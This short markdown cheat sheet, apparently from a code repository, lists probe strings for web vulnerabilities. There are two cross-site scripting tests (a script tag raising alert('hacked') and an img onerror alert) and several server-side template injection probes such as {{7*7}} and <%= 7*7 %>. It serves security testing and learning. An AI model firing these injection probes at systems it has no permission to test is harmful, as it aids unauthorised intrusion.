 ## to check xss vulnerability:

```
<script>alert('hacked')</script>

<img src=x onerror=alert()>${{7*7}}

```

## SSTI

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
